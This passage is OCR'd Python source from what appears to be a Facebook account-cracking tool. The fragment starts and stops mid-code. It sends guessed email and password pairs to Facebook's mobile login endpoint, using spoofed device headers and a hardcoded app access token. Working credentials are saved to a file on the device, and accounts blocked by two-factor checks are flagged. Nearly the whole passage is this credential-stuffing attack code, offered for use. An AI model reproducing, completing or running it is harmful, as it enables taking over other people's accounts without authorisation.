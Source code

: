                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sm=['GT-', 'SM-']
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                "adid": adid,
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": ids,
"password": pas,
"access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": "8b59ed89-4b88-4f69-a1ed-dfea59e76839",
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d",}
                        headers={
                                'User-Agent': heros_UA(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': '45204',
'X-FB-SIM-HNI': '45201',
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',
'Content-Length': '706'}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [HEROES-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/HEROES-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[HEROES-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
